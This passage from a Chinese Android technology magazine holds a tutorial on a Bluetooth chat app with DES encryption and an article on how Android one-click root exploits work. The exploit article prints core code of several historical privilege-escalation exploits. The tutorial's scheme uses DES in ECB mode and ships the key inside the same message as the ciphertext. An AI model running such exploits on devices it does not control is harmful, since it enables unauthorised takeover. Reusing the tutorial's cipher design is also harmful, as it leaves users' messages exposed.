开发环境搭建好之后，我们便进入到具体的软件开发了。Android 从 2.0 之后才支持蓝牙 API，Android 本身对蓝牙设备的操作进行了封装以方便我们的调用。Android 蓝牙使用的是 Bluez 协议栈。本程序主要用到以下几个类：BluetoothAdapter 类、BluetoothDevice 类、BluetoothSocket 类及 BluetoothServerSocket 类。

BluetoothAdapter 类，顾名思义就是指一个本地的蓝牙适配器。它是所有蓝牙交互的入口点。利用它我们可以发现其他蓝牙设备、查询绑定了的设备、使用已知的 MAC 地址实例化一个蓝牙设备和建立一个 BluetoothServerSocket（作为服务器端）来监听来自其他设备的连接。

BluetoothDevice 类代表一个远端的蓝牙设备，使用它请求远端蓝牙设备连接，或者获取远端蓝牙设备的名称、地址、种类和绑定状态（其信息封装在 BluetoothSocket 中）。

BluetoothSocket 类代表一个蓝牙套接字的接口（类似于 TCP 中的套接字），它是应用程序通过输入、输出流与其他蓝牙设备通信的连接点。

BluetoothServerSocket 类代表打开服务连接来监听可能收到的连接请求（属于 server 端）。

#### 1. 获取本地蓝牙设备

在 Eclipse 中新建一个 Android Application，在 MainActivity 的 onCreate 函数中获取本地的蓝牙设备，通过调用 getDefaultAdapter() 获取蓝牙适配器 mBluetoothAdapter；如果调用成功，则返回本地的蓝牙适配器；否则返回 null，退出程序。主要代码如下：

```java
public void onCreate(Bundle savedInstanceState){
    super.onCreate(savedInstanceState);
    if(D)Log.e(TAG,"++ONCREATE++");
    //设定窗口布局
    requestWindowFeature(Window.FEATURE_CUSTOM_TITLE);
    setContentView(R.layout.main);
    getWindow().setFeatureInt(Window.FEATURE_CUSTOM_TITLE,R.layout.custom_title);
    //建立自定义标题
    mTitle=(TextView)findViewById(R.id.title_left_text);
}

mTitle.setText(R.string.app_name);
mTitle=(TextView)findViewById(R.id.title_right_text);
mData=new ArrayList<Map<String,Object>>();
mCustomizedAdapter=new CustomizedAdapter();
//获得本地蓝牙适配器
mBluetoothAdapter=BluetoothAdapter.getDefaultAdapter();
//如果本地蓝牙适配器为空，则蓝牙不可用
if(mBluetoothAdapter==null){
    Toast.makeText(this,R.string.not_available,Toast.LENGTH_LONG).show();
    finish();
    return;
}
```

在 onStart 函数中对蓝牙的状态进行判断，如果可用，则进行聊天，否则通过 ACTION_REQUEST_ENABLE 系统意图打开蓝牙。

```java
@Override
public void onStart(){
    super.onStart();
    if(D)Log.e(TAG,"++ONSTART++");
    //如果蓝牙没有打开，则返回不可用
    if(!mBluetoothAdapter.isEnabled()){
        Intent enableIntent=new Intent(BluetoothAdapter.ACTION_REQUEST_ENABLE);
        startActivityForResult(enableIntent,REQUEST_ENABLE_BT);
    //否则，开启聊天程序
    }else{
        if(mChatService==null)setupChat();
    }
}
```

同时在 onActivityResult 回调函数中对该系统意图返回的结果进行判断，代码如下：

```java
//onActivityResult 回调函数接收 Activity 返回的结果
public void onActivityResult(int requestCode,int resultCode,Intent data){
    switch(requestCode){
    case REQUEST_ENABLE_BT:
        //当请求启用蓝牙得到允许时
        if(resultCode==Activity.RESULT_OK){
            //蓝牙现在已经启用，因此建立一个聊天会话
            setupChat();
        }else{
            //用户没有开启蓝牙或者出现错误
            Log.d(TAG,"BT not enabled");
            Toast.makeText(this,R.string.bt_not_enabled_leaving,Toast.LENGTH_SHORT).show();
            finish();
        }
        break;
    }
}
```

#### 2. 搜索远程设备

至此，本地蓝牙适配器已经打开，接下来需要搜索远程设备进行连接，或者查询本地已经配对的设备（前提是该设备之前与本地蓝牙适配器连接过，本地会保存相应的设备名称等信息）。这里对匹配和连接做一简要说明：匹配好，只是说明对方设备发现了你的存在，并拥有一个共同的识别码，并且可以连接。连接上，表示当前设备共享一个 RFCOMM 信道并且两者之间可以交换数据。也就是说，蓝牙设备在建立 RFCOMM 信道之前，必须是已经配对好了的。

接下来分两点进行说明：查询本地已经配对的设备和搜索远程设备。

查询本地已经配对好的设备主要代码如下：

```java
Set<BluetoothDevice> pairedDevices=mBtAdapter.getBondedDevices();
if(pairedDevices.size()>0){
    findViewById(R.id.title_paired_devices).setVisibility(View.VISIBLE);
    for(BluetoothDevice device:pairedDevices){
        mPairedDevicesArrayAdapter.add(device.getName()+"\n"+device.getAddress());
    }
}else{
    String noDevices=getResources().getText(R.string.none_paired).toString();
    mPairedDevicesArrayAdapter.add(noDevices);
}
```

搜索远程设备：扫描设备，只需要调用 startDiscovery() 方法即可，这个扫描的过程大概持续 12 秒。应用程序为了执行 ACTION_FOUND 动作，需要注册一个 BroadcastReceiver 来接收设备扫描到的信息。对于每一个设备，系统都会广播 ACTION_FOUND 动作。主要代码如下：

```java
private final BroadcastReceiver mReceiver=new BroadcastReceiver(){
    @Override
    public void onReceive(Context context,Intent intent){
        String action=intent.getAction();
        //When discovery finds a device
        if(BluetoothDevice.ACTION_FOUND.equals(action)){
            BluetoothDevice device=intent.getParcelableExtra(BluetoothDevice.EXTRA_DEVICE);
            if(device.getBondState()!=BluetoothDevice.BOND_BONDED){
                mNewDevicesArrayAdapter.add(device.getName()+"\n"+device.getAddress());
            }
        }else if(BluetoothAdapter.ACTION_DISCOVERY_FINISHED.equals(action)){
            setProgressBarIndeterminateVisibility(false);
            setTitle(R.string.select_device);
            if(mNewDevicesArrayAdapter.getCount()==0){
                String noDevices=getResources().getText(R.string.none_found).toString();
                mNewDevicesArrayAdapter.add(noDevices);
            }
        }
    }
};
```

#### 3. 连接设备

当搜索到远程设备，或者选择一个已配对的设备后，接下来就可以进行设备的连接了。在应用程序中，如果想建立两个蓝牙设备之间的连接，必须有客户端和服务器端：一个开启服务来监听，一个发起连接请求（使用服务器端设备的 MAC 地址）。当两个设备之间都拥有一个蓝牙套接字（BluetoothSocket）并在同一 RFCOMM 信道上的时候，可以认为它们之间已经连接上了。服务器端和客户端通过不同的方式获取它们的蓝牙套接字。当一个连接被监听到的时候，服务器端获取到蓝牙套接字；当客户端打开一个 RFCOMM 信道给服务器端的时候，客户端获取到蓝牙套接字。

##### （1）服务端的连接

当你想要连接两台设备时，一个必须作为服务器端（通过持有一个打开的 BluetoothServerSocket），目的是监听外来连接请求，监听到以后提供一个连接上的 BluetoothSocket 给客户端。客户端从 BluetoothServerSocket 得到 BluetoothSocket 以后就可以销毁 BluetoothServerSocket，除非你还想监听更多的连接请求。

建立服务套接字和监听连接的基本步骤：首先通过调用 listenUsingRfcommWithServiceRecord(String, UUID) 方法来获取 BluetoothServerSocket 对象，参数 String 代表该服务的名称，UUID 代表和客户端连接的一个标识（128 位格式的字符串 ID，相当于 pin 码），UUID 必须双方匹配才可以建立连接。其次调用 accept() 方法来监听可能到来的连接请求，监听到以后，返回一个连接上的蓝牙套接字 BluetoothSocket。最后，在监听到一个连接以后，需要调用 close() 方法来关闭监听程序（一般蓝牙设备之间是点对点的传输）。

注意：accept() 方法不应该放在主 Activity 里面，因为它是一种阻塞调用（在监听到连接请求之前程序就一直停在那里）。解决方法是新建一个线程来管理。主要代码如下：

```java
private class AcceptThread extends Thread {
    private final BluetoothServerSocket mmServerSocket;
    private String mSocketType;
    public AcceptThread(boolean secure) {
        BluetoothServerSocket tmp = null;
        // 创建一个用于监听的 BluetoothServerSocket
        try {
            if (secure) {
                ...
            }
        }
    }
}
```

```java
// 创建一个安全的连接
tmp = mAdapter.listenUsingRfcommWithServiceRecord(NAME_SECURE, MY_UUID_SECURE);
} else {
    // 创建一个不安全的连接
    tmp = mAdapter.listenUsingInsecureRfcommWithServiceRecord(NAME_INSECURE, MY_UUID_INSECURE);
}
...
public void run() {
    BluetoothSocket socket = null;
    // 监听 BluetoothServerSocket，直到有一个请求连接
    while (mState != STATE_CONNECTED) {
        try {
            socket = mmServerSocket.accept();
        } catch (IOException e) {
            break;
        }
        if (socket != null) {
            synchronized (BluetoothChatService.this) {
                switch (mState) {
                    case STATE_LISTEN:
                    case STATE_CONNECTING:
                        connected(socket, socket.getRemoteDevice(), mSocketType);
                        break;
                    case STATE_NONE:
                    case STATE_CONNECTED:
                        try {
                            socket.close();
                        } catch (IOException e) {
                            Log.e(TAG, "Could not close unwanted socket", e);
                        }
                        break;
                }
            }
        }
    }
}

public void cancel() {
    try {
        mmServerSocket.close();
    } catch (IOException e) {}
}
```

##### （2）客户端的连接

为了初始化一个与远端设备的连接，需要先获取代表该设备的一个 BluetoothDevice 对象。通过 BluetoothDevice 对象来获取 BluetoothSocket 并初始化连接：使用 BluetoothDevice 对象里的方法 createRfcommSocketToServiceRecord(UUID) 来获取 BluetoothSocket，UUID 就是 ...匹配码。然后，调用 `connect()` 方法。如果远端设备接收了该连接，它们将在通信过程中共享 RFCOMM 信道，并且 `connect()` 方法返回。主要代码如下：

```java
// ConnectThread 线程主要用于尝试与其他设备进行连接
private class ConnectThread extends Thread {
    private final BluetoothSocket mmSocket;
    private final BluetoothDevice mmDevice;

    public ConnectThread(BluetoothDevice device) {
        BluetoothSocket tmp = null;
        mmDevice = device;

        try {
            if (secure) {
                tmp = device.createRfcommSocketToServiceRecord(MY_UUID_SECURE);
            } else {
                tmp = device.createInsecureRfcommSocketToServiceRecord(MY_UUID_INSECURE);
            }
        } catch (IOException e) {
            Log.e(TAG, "Socket create() failed", e);
        }
        mmSocket = tmp;
    }

    public void run() {
        mAdapter.cancelDiscovery();
        try {
            mmSocket.connect();
        } catch (IOException connectException) {
            try {
                mmSocket.close();
            } catch (IOException closeException) {}
            return;
        }

        synchronized (BluetoothChatService.this) {
            mConnectThread = null;
        }

        connected(mmSocket, mmDevice, mSocketType);
    }

    public void cancel() {
        try {
            mmSocket.close();
        } catch (IOException e) {}
    }
}
```

```java
private final OutputStream mmOutStream;

public ConnectedThread(BluetoothSocket socket) {
    mmSocket = socket;
    InputStream tmpIn = null;
    OutputStream tmpOut = null;

    try {
        tmpIn = socket.getInputStream();
        tmpOut = socket.getOutputStream();
    } catch (IOException e) {}

    mmInStream = tmpIn;
    mmOutStream = tmpOut;
}

public void run() {
    byte[] buffer = new byte[50000];
    int bytes;

    while (true) {
        try {
            bytes = mmInStream.read(buffer);
            mHandler.obtainMessage(MESSAGE_READ, bytes, -1, buffer).sendToTarget();
        } catch (IOException e) {
            connectionLost();
            break;
        }
    }
}

public void write(byte[] bytes, boolean isEncrypt) {
    try {
        byte[] writeMessage = encryptMessageWithDES(bytes, isEncrypt);
        mmOutStream.write(writeMessage);
        mHandler.obtainMessage(BluetoothChatActivity.MESSAGE_WRITE, -1, -1, bytes).sendToTarget();
    } catch (IOException e) {}
}

public void cancel() {
    try {
        mmSocket.close();
    } catch (IOException e) {}
}
```

#### 4. 数据传输

当设备连接上以后，便可以进行聊天了。首先通过调用 `getInputStream()` 和 `getOutputStream()` 方法来获取输入/输出流。然后通过调用 `read(byte[])` 和 `write(byte[])` 方法来读取或者写数据。因为读和写操作都是阻塞调用，需要建立一个专用线程来管理。主要代码如下。

```java
private class ConnectedThread extends Thread {
    private final BluetoothSocket mmSocket;
    private final InputStream mmInStream;
}
```

由于建立的 RFCOMM 信道在通信时有可能会被其他设备监听，从而使通信信道不可靠，因而需要对写入缓冲区的内容进行加密，主要使用 DES 对称加密算法。所谓对称加密算法，就是加密和解密使用相同密钥的算法。其密钥长度为 56 位，明文按 64 位进行分组，将分组后的明文组和 56 位的密钥按位替代或交换的方法形成密文组。我们对加密算法进行封装，所有加密和解密的算法都在 `BluetoothChatSecurity` 类中实现。

```java
/**
 * Java6 支持 DES 56 位密钥
 */
public static final String KEY_ALGORITHM = "DES";
```

```java
/*
 * 加密/解密算法/工作模式/填充方式
 * Cipher 类为加密和解密提供密码功能，构成了
 * Java Cryptographic Extension (JCE) 框架的核心
 */
public static final String CIPHER_ALGORITHM = "DES/ECB/PKCS5Padding";

private static Key toKey(byte[] key) throws Exception {
    DESKeySpec dks = new DESKeySpec(key);
    SecretKeyFactory keyFactory = SecretKeyFactory.getInstance(KEY_ALGORITHM);
    SecretKey secretKey = keyFactory.generateSecret(dks);
    return secretKey;
}

public static byte[] initKey() throws Exception {
    KeyGenerator kg = KeyGenerator.getInstance(KEY_ALGORITHM);
    kg.init(56);
    SecretKey secretKey = kg.generateKey();
    return secretKey.getEncoded();
}

public static byte[] encryptDES(byte[] data, byte[] key) throws Exception {
    Key k = toKey(key);
    Cipher cipher = Cipher.getInstance(CIPHER_ALGORITHM);
    cipher.init(Cipher.ENCRYPT_MODE, k);
    return cipher.doFinal(data);
}

public static byte[] decryptDES(byte[] data, byte[] key) throws Exception {
    Key k = toKey(key);
    Cipher cipher = Cipher.getInstance(CIPHER_ALGORITHM);
    cipher.init(Cipher.DECRYPT_MODE, k);
    return cipher.doFinal(data);
}
```

| EncryptFlag | KeyLength | MessageLength | Key | Message |
|---|---|---|---|---|

图 2 Buffer 缓冲区结构

缓冲区 Buffer 主要分为 5 个部分：加密标志位、密钥长度、消息长度、密钥及加密后的消息。其中加密标志位占 1 字节，用 0 和 1 表示；0 代表不使用 DES 加密，1 代表使用 DES 加密。密钥长度为 DES 加密算法中构造的密钥长度，也占 1 字节；如果没有使用加密算法，则值默认为 -1。消息长度默认使用 1 字节存放。这里需要注意，密钥长度和消息长度都是经过 Base64 编码后获得的长度，而非实际得到或输入的字符长度。客户端得到缓冲区数据后，需要按与加密一致的过程解密：先判断加密标志位，再获取密钥长度与密钥（需先 Base64 解码），最后对消息解密并进行 Base64 解码显示。

#### 5. 消息加密

在本程序中，主要通过调用 `encryptMessageWithDES` 实现对消息的加密。并且由于加密后的信息用户无法正常显示，可能存在编码方式不同导致不同机器显示的信息也不同，因此统一通过 Base64 编码的形式显示在用户界面上，方便用户查看对比。消息加密实现的关键是对缓冲区 Buffer 做了如图 2 所示的划分。

```java
// 对消息进行 DES 加密
private byte[] encryptMessageWithDES(byte[] buffer, boolean isEncrypt) {
    byte[] encrypts = new byte[3];
    byte[] bufferMessage = buffer;

    // 设置加密标志位
    // 0 表示不加密，1 表示加密
    if (isEncrypt) {
        encrypts[0] = 1;
    } else {
        encrypts[0] = 0;
    }

    // 密钥的长度
    encrypts[1] = -1;
    // 消息的长度
    encrypts[2] = -1;

    String encryptm = "";
    String encryptInfo = new String(encrypts);
    String encryptKeys = "";
    String bufferm = new String(bufferMessage);

    if (isEncrypt) {
        try {
            byte[] key = BluetoothChatSecurity.initKey();
            // 对 DES 加密 Key 进行 Base64 编码
            String base64keys = Base64.encodeToString(key, 0);
            ...
        }
    }
}
```

```java
// 对消息进行 DES 加密
byte[] messages = BluetoothChatSecurity.encryptDES(bufferMessage, key);
// 对 DES 加密的数据进行 Base64 编码，便于显示
String base64EncryptResult = Base64.encodeToString(messages, 0);
Integer length = base64keys.getBytes().length;
Integer messageLength = bufferMessage.length;
encrypts[1] = length.byteValue();
encrypts[2] = messageLength.byteValue();
String encryptIn = new String(encrypts);
encryptInfo = encryptIn;
encryptKeys = base64keys;
bufferm = base64EncryptResult;
...
// 没有使用 DES 加密，也需要对信息进行 Base64 编码
String base64keys = Base64.encodeToString(encryptKeys.getBytes(), 0, 0);
String base64Message = Base64.encodeToString(bufferMessage, 0);
...
encryptm = encryptInfo;
encryptm += encryptKeys;
encryptm += bufferm;
// 将加密后的消息转换成 byte 数组
return encryptm.getBytes();

// 对从缓冲区得到的消息进行解密
private String decryptMessageWithDES(byte[] readBuf) {
    int bytes = readBuf.length;
    String originalMessage = "";
    String outputMessage = "";
    byte[] decryptMessage;
    // 获取加密标志位
    if (readBuf[0] == 1) {
        int keyLength = readBuf[1];
        int messageLength = readBuf[2];
        String keys = new String(readBuf, 3, keyLength);
        byte[] base64keys = Base64.decode(keys, 0);
        String encryptMessage = new String(readBuf, keyLength + 3, keyLength + messageLength + 3);
        byte[] base64decryptResult = Base64.decode(encryptMessage, 0);
        try {
            decryptMessage = BluetoothChatSecurity.decryptDES(base64decryptResult, base64keys);
        }
```

```java
String decryptedMessage = new String(decryptMessage);
originalMessage = decryptedMessage;
outputMessage = originalMessage;
outputMessage += "\n";
outputMessage += encryptMessage;
} catch (Exception e) {
    e.printStackTrace();
}
} else {
    int keyLength = readBuf[1];
    int messageLength = readBuf[2];
    int encryptLength = 3 + keyLength;
    String noEncryptMessage = new String(readBuf, encryptLength, encryptLength + messageLength);
    byte[] base64decryptResult = Base64.decode(noEncryptMessage, 0);
    String base64decryptMessage = new String(base64decryptResult);
    originalMessage = base64decryptMessage;
    outputMessage = originalMessage;
}
return outputMessage;
```

最后我们看一下程序运行的结果，主界面如图 2 所示。主要包括以下控件：标题栏、聊天主窗体、附件按钮、消息输入框及“发送”按钮；菜单选项包括连接设备-安全、连接设备-不安全、使设备可发现及设置。此时，程序已经处于启动状态。


图 2 程序运行结果

用户可单击消息输入框输入文本，此时的聊天信息并没有经过加密，是以明文的形式显示的。如果用户想要对消息进行加密，可以通过菜单项选择加密，即发送方的消息将以明文+密文的形式显示，如图 3 所示。

## Android 远程监控技术


图 3 蓝牙通信截图

本文主要是向大家讲述 Android 平台下基于蓝牙的简单通信软件开发，功能更为强大的基于蓝牙的安全通信还需要进一步深入研究，希望在以后的日子里能和大家一起探讨相关技术。

## Android 手机一键 Root 原理分析


图/文 非戈

一直以来，刷机与 Root 是 Android 手机爱好者最热衷的事情，即使国行手机的用户也不惜冒着失去保修的风险对 Root 手机乐此不疲。

就在前不久，一年一度的 Google I/O 大会拉开了帷幕，最新的 Android 4.1 系统成为了大会的热点，经过短短的几小时后，网上就有人泄露了 Jelly Bean 的下载地址，然后就有了 Android 4.1 带 Root 的完整刷机包！

### 1. Root 的由来

什么是 Root？Root 本身是指 Linux 系统的 Root 账户，该账户拥有整个系统至高无上的权利，系统中的所有对象它都可以操作。对于 Android 手机用户来说，Root 是指拥有 Root 权限。一般情况下，手机厂商出于安全考虑会关闭手机的 Root 权限，手机系统运行在普通用户权限下，用户是无法操作系统中的文件与数据的。

Root 与刷机本身是有很多关联的，而且随着刷机工具的便利与刷机原理的变化，两者的关系更加模糊不清。不同厂商针对获取 Root 权限设置了不同的要塞。

首先从刷机说起，如 HTC 手机在刷机前需要保证 S-OFF。S-OFF 代表什么呢？S 代表 Security Lock，是“保护锁”的意思；S-OFF 就是关掉锁保护。对于 Motorola 的手机，厂商对于不同型号的手机设置是不同的，很多 Motorola 型号的手机的 BootLoader 是锁住的，因此，在刷机前需要先解锁 BootLoader。还有中兴手机，这厂商更变态，一次次的版本升级只是为了锁住用户不让用户升级，也就导致了同一型号的手机由于版本不同，有的型号带 Recovery，有的不带。三星的手机现在可以说是最好卖的，一方面是出色的硬件配置与外观，另一方面是有众多的 Rom 包可以刷。三星的好几款手机是 Google 源码的测试样机，而且三星手机在出厂时对用户的限制相比其他品牌是较少的，这也是广大 Android 开发者对它青睐有加的原因。

早先的 Android 手机要想获取 Root 权限可以有以下几种方式：

- 1. 使用本地提权漏洞，使用工具来直接 Root，这是最原始的方式。随着厂商对 Rom 的升级，这些内核的漏洞随时都可能被修补，因此，这种 Root 方法在时间与空间上都有着很大的局限性。
- 2. 由于手机厂商对硬件的封闭，加上内核补丁修补很完全，这个时候获取 Root 权限就更难了，这个时候刷机与 Root 就联合起来了。由于不能从系统内部通过 Exploits 来获取 Root 权限，只能通过修改 Rom 包来达到 Root 的目的，这也是目前很多第三方 Rom 包自带了 Root 的原因。然而手机厂商也不是吃干饭的，手机厂商在 OTA 升级时使用 Recovery 对包签名进行验证来防止用户刷入修改过的包。对于这种变态的厂商，只能通过 FastBoot 来线刷了，这个内容就不再展开了。
- 3. 当然，还有一部分厂商为了吸引更多用户购买他们的手机，在手机中偷偷地留了后门，比如不锁 Bootloader，让用户刷第三方的 Recovery，又或者是干脆留个以前的漏洞不补，让用户自己来 Exploits 等。

### 2. Root 漏洞的历史

Root 漏洞不是与生俱来的，这是全世界优秀的计算机黑客不懈努力的成果。也许你在夜店喝酒的那个夜晚，他们却正寻找着系统的漏洞，一次次的测试，一次次的失败，最终在你醉得不省人事的时候，他们获取到了系统的最高控制权。他们欢呼，他们嚎叫，他们是全天下最聪明的人！

也许你对他们的事迹不屑一顾，但我相信你对他们的研究成果是饶有兴趣的。下面由我来带领大家，看看这一路走来都出现过哪些牛人，他们又为我们带来了哪些惊喜。

### 3. CVE-2009-2692

我无法知道 Android 提权漏洞是从什么时候开始的，但在我的印象中，这个漏洞的发现者是 zinx，他是探索 Android 安全之路的先驱。现在每个 Root 后的手机中肯定有 SuperUser.apk 软件，而 zinx 就是早先 SuperUser 的作者，现在 SuperUser 由 ChainsDD 来负责更新了，zinx 前辈常年混迹于国外的 xda 论坛，不过现在好像很少露面了。

这个漏洞是 2009 年的，现在早已经修补了。从 zinx 提供的 android-root-20090816.tar.gz 压缩包时间来看，这个 Exploit 是在 Android NDK r1 发布两个月后公布的，可见 zinx 研究 Android 的时间是多么早！但这个漏洞的原作者并不是 zinx，zinx 只是将漏洞移植到了 Android 上。这个漏洞的作者在 Exploit 中给出的协议驱动程序包括 pppox、bluetooth、appletalk、ipx、sctp，zinx 改写的 Android 版本使用 Bluetooth 协议。这个漏洞的起因是 sock_sendpage() 的空指针解引用。因为 sock_sendpage 没有对 socket_file_ops 结构的 sendpage 字段做指针检查，有些模块不具备 sendpage 功能，初始时赋为 NULL。

这样，没有做检查的 sock_sendpage 有可能直接调用空指针而导致出错并提升权限！接着，sendfile(fdout, fdin, NULL, PAGE_SIZE) 的调用使得该漏洞被触发，最终执行以下代码获取到 Root 权限：

```c
int __attribute__((section(".pull")))root_sendpage(void *sk, void *page, int offset, size_t size, int flags)
{
    current->uid=current->euid=0;
    current->gid=current->egid=0;
    got_root=1;
    return -ECONNREFUSED;
}
```

### 4. CVE-2010-EASY

这个漏洞是由“TheAndroidExploidCrew”小组发现的。在公布的代码中，提供了 3 种提权方法，分别是 exploid.c、exploid2.c、rageagainstthecage.c 3 个文件。

exploid.c 与 exploid2.c 属于同一类 Exploit，这个漏洞的形成是由于 udev 对热插拔消息检测不严导致的，用户通过发送恶意信息让内核加载自定义的恶意程序从而取得 Root 权限……创建 Socket 并发送消息的代码如下：

```c
if((sock=socket(PF_NETLINK,SOCK_DGRAM,NETLINK_KOBJECT_UEVENT))<0)
    die("[-]socket");
close(creat("loading",0666));
if((ofd=creat("hotplug",0644))<0)
    die("[-]creat");
if(write(ofd,path,strlen(path))<0)
    die("[-]write");
close(ofd);
symlink("/proc/sys/kernel/hotplug","data");
snprintf(buf,sizeof(buf),"ACTION=add%cDEVPATH=...", ...);
printf("[+]sending add message...\n");
if(sendmsg(sock,&msg,0)<0)
    die("[-]sendmsg");
close(sock);
```

rageagainstthecage.c 这个漏洞有人把它称为 setuid 提权漏洞，这个漏洞的形成过程个人感觉只能用“巧妙”来形容！代码通过将 adbd 后台服务子进程耗尽迫使 adbd 重启，adbd 在重启的时候具有 Root 权限，正常情况下这时 adbd 会调用 setuid 将权限降到 shell，但是由于 rageagainstthecage 让 adbd 的僵尸进程充斥着整个系统，这时候 setuid 会调用失败，最后 adbd 就保留了 Root 权限运行，从而完成 Root 提权。核心代码如下：

```c
if(fork()>0)
    exit(0);
setsid();
pipe(pepe);
if(fork()==0){
    close(pepe[0]);
    for(;;){
        if((p=fork())==0){
            exit(0);
        } else if(p<0){
            if(new_pids){
                printf("\n[+]Forked %d childs.\n",pids);
                new_pids=0;
                write(pepe[1],&c,1);
                close(pepe[1]);
            } else {
                ++pids;
            }
        }
    }
}
close(pepe[1]);
read(pepe[0],&c,1);
```

第 1~3 行代码 fork 子进程后退出，第 4~6 行子进程独立并创建两支管道来同步进程，具体是由第 8 行与第 25 行一关一读来实现的；第 10~11 行是不停地创建子进程，然后不停地退出，这时僵尸产生了……直到最后 p<0 输出创建的子进程数目。这段代码执行完后会重启 adb 进程，adb 进程重启会执行 setgid(AID_SHELL) 与 setuid(AID_SHELL) 两行代码来降权，可是这时候由于进程数达到上限，setuid 执行失败，这就使得 adb 进程以 Root 权限继续执行下去了。

### 5. GingerBreak

GingerBreak 本身不是 Linux 内核漏洞，因此它没有正规的漏洞编号。与上面的漏洞相同的是，GingerBreak 也是由“TheAndroidExploidCrew”小组发现的，它的工作原理与 Hook 类似，通过代码修改 /system/bin/vold 程序的 GOT 表项，将 strcmp()、atoi() 等函数的地址改为 system() 函数的地址，然后触发调用 strcmp() 或 atoi() 来达到执行 system() 的目的，而后者真正被执行后会为我们带来久违的 RootShell，修改函数地址的代码片段如下：

```c
vold.pid_found;
vold.found=1;
if(vold.system)
    return;
ptr=find_symbol("system");
vold.system=(uint32_t)ptr;
```

在修改完函数地址后，就要考虑如何来触发了，“TheAndroidExploidCrew”小组再一次使用了 NETLINK 进行通信，通过发送热插拔消息让 vold 中的 strcmp() 或 atoi() 被调用。但不同的 Android 系统操作起来可能有所不同，于是，需要手工构造消息，然后发送，相关代码如下。

```c
/* Trigger any of the GOT overwrites in strcmp(), atoi(), strdup() etc.
 * inside vold main binary
 * Arentyesmart? Using oldschool technique from '99 of sck NX while others
 * re-invent "ROP". Wuhahahahaha!!!
 */
if(honeycomb){
  n=snprintf(buf,sizeof(buf),"... ACTION=add ...");
}else if(froyo){
  n=snprintf(buf,sizeof(buf),"... ACTION=add ...");
}else{
  n=snprintf(buf,sizeof(buf),"... ACTION=... ...");
}
```

可以看到，代码的适用范围是从 froyo 到 honeycomb，仔细看一下代码的注释部分，代码的作者真的很可爱！

### 6. zergRush

同 GingerBreak 一样，zergRush 也不属于内核漏洞。这个漏洞是大名鼎鼎的 Revolutionary 工具开发小组公布的，这个小组开发的 Revolutionary 解锁工具 HTC 的用户应该不陌生吧？

这个漏洞的原理是由于 libsysutils.so 库中的 FrameworkListener::dispatchCommand 函数的一个栈变量引起的，栈变量 argv[FrameworkListener::CMD_ARGS_MAX] 由于允许的最大下标为 16，如果我们特意传送超过 16 个空格分隔的字符串，函数就会溢出。

整个溢出工具的代码框架与 GingerBreak 是一样的，应该是在 GingerBreak 代码基础上加工的，整个代码的核心部分在 do_fault 函数中，代码设计十分巧妙，经过精心的构造最终执行安排的 Shellcode，整个过程通过代码阅读很难在大脑中建立模型结构，建议还是手动调试好。

以上介绍的几个漏洞代码都是很优秀的、无可挑剔的，它们目前在全球各地以各种名称与形式存在着。

### 7. CVE-2012-0056

2012 年 1 月 23 日，正当我们与家人聚在一起吃年饭的时候，国外的小伙 zx2c4 在自己的主页上公布了此漏洞，随后，xda 上的网友 saurik 据此编写了 Android 版本的 Exploit。这个漏洞的原理是利用系统中具有 setuid 属性的程序通过自修改程序的内存，执行 Shellcode 达到获得 Root 权限的目的。完成修改进程内存的动作前需要解决两个问题：

- 1. 系统只允许 $pid 进程或者 $pid 的调试进程对 /proc/$pid/mem 文件进行写入。
- 2. 系统会检查打开 /proc/$pid/mem 程序的 self_exec_id 是否与当前运行的程序相同，一个进程使用 exec() 后，self_exec_id 会自动加 1，以此来保护内存不会被别的程序修改。

解决第一个问题很简单，直接打开自己进程的内存即可，第二个问题就难办了，因为进程打开自己时，self_exec_id 已经加 1 了，zx2c4 使用子进程来巧妙地解决了这个问题。首先，fork() 子进程来保存进程的 mem 文件到 CMSG_DATA，然后父进程使用 dup(2) 创建 2 号 fd，接着 dup2(mem,2) 将 mem 的内容 dup2 给 2 号 fd，这时 2 号 fd 指向了 /proc/$pid/mem 的 fd，下一步是构造参数 args，调用 "/system/bin/run-as" 来执行 Exploit，代码如下：

```c
int save=dup(2);
dup2(mem,2);
close(mem);
if(save!=3){
    ...
}
dup2(save,3);
close(save);
}
char self[1024];
_syscall(readlink("/proc/self/exe", self, sizeof(self)-1));
char* args[4+argc+1];
args[0]=strdup("run-as");
args[1]=(char*)exploit;
args[2]=self;
args[3]=strdup("-");
int i;
for(i=0;i<=argc;++i)
    args[4+i]=argv[i];
args[4+i]=NULL;
_syscall(execv("/system/bin/run-as", args));
return 0;
```

程序在运行时需要提供 3 个参数：`exit()` 函数地址、`setresuid()` 函数地址及一个命令，如果 Root 掉 Galaxy Nexus，可以执行 `./data/local/tmp/mempodroid 0xd7f4 0xad4b sh` 命令。

`exit()` 与 `setresuid()` 函数地址的获取很简单，可以使用 `objdump` 查找，还可以使用如下代码来获取：

```c
int main(void){
    void* lib=dlopen("libc.so", RTLD_NOW|RTLD_GLOBAL);
    void* symbol;
    if(lib==NULL){
        fprintf(stderr,"Could not open self-executable with dlopen(NULL)!!:%s\n", dlerror());
        return 1;
    }
    symbol=dlsym(lib,"exit");
    if(symbol==NULL){
        fprintf(stderr,"Could not look up symbol exit!!:%s\n", dlerror());
        return 2;
    }
    printf("exit() addr:%08x\n", symbol);
    symbol=dlsym(lib,"setresuid");
    if(symbol==NULL){
        fprintf(stderr,"Could not look up symbol setresuid!!:%s\n", dlerror());
        return 2;
    }
    printf("setresuid() addr:%08x\n", symbol);
    dlclose(lib);
    return 0;
}
```

这个漏洞目前是最新的，并且漏洞的补丁是 Linus 亲自提交的。在 ICS 4.0.2（ICL53F）和以前的 Android 系统中，这个漏洞可以正常工作。

### 8. su 与 SuperUser.apk 是如何协作的

在 Root 后手机会植入 `su` 与 `superuser.apk` 两个文件，前者会被放入手机的 `/system/bin` 目录下，后者被放到 `/system/app` 目录下，它们组合在一起，为系统提供了 `su` 权限的管理。

前者由 xda 论坛上的 ChainsDD 在维护（顺便说一下，国内 xxRoot 工具也有自己的 `su` 与 `SuperUser.apk` 文件，修改了 ChainsDD 的代码）。

`su` 程序与 Linux 平台上的 `su` 本身无太大差别，只是由于系统的特殊性去掉了部分内容，并加上了一些控制代码。`su` 程序保留的命令行参数不多，`-c` 与 `-s` 可能是最常用的，整个程序核心功能由两个方向性的函数 `allow()` 与 `deny()` 组成，在经过计算获取到了命令行参数与命令后，会执行以下代码：

```c
if (su_from.uid==AID_ROOT || su_from.uid==AID_SHELL)
    allow(shell, orig_umask);
if (stat(REQUESTOR_DATA_PATH, &st) < 0) {
    PLOGE("stat");
    deny();
}
...
setgroups(0, NULL);
setgid(st.st_gid);
